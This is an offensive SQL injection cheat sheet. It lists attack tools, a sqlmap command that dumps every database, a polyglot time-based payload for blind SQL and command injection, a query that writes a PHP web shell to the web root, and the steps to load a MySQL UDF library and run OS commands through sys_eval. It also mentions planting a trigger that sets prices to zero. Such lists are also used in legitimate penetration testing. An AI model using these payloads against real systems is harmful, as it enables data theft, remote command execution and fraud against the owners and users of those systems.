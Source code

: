 # SQL Injection

## Tools
- SqlMap:
```
sqlmap -r sqlmap.req --level=5 --risk=3 --dump-all​
```
- AutoSQLi: https://github.com/jesuiscamille/AutoSQLi
- SQLiDumper: https://www.cybrary.it/0p3n/pentesting-sqli-dumper-v8-tool/
- Automatic SQL injection with Charles and sqlmap api
  - http://0r1.me/SQLiScanner/
  - https://github.com/0xbug/SQLiScanner

## Payload
Combines blind command injection and blind sql injection ( mysql ) in one payload (works with no quotes/single quotes and double quotes):
```
/*$(sleep 5)`sleep 5``*/sleep(5)#'/*$(sleep 5)`sleep 5` #*/||sleep(5)||'"||sleep(5)||"`
```
> https://mobile.twitter.com/bl4ckh4ck5/status/1100167033407320065

WebShell over MySQL

```
SELECT '<?php echo shell_exec($_GET['c']); ?>' INTO OUTFILE '/var/www/html/example.php'
```

User Defined Functions (UDF) (sqlmap/udf/mysql)

```
SELECT @@plugin_dir;
PowerShell$ Convert-Dll -DllPath lib_mysqludf_sys.dll -OutputPath bytes.txt
SELECT CHAR(64,64,....) INTO OUTFILE '<@@plugin_dir>/lib_mysqludf_sys.dll' FIELDS ESCAPED BY '';
CREATE FUNCTION sys_eval RETURNS STRING SONAME 'lib_mysqludf_sys.dll';
SELECT sys_eval('whoami');
```



## Techniques
- Add a trigger to do a malicious action (price 0)

## Language Specific

### PHP
- Good example from DOCs, where parameterization is not used: http://php.net/manual/en/mysqli.examples-basic.php (use: https://phptherightway.com/)
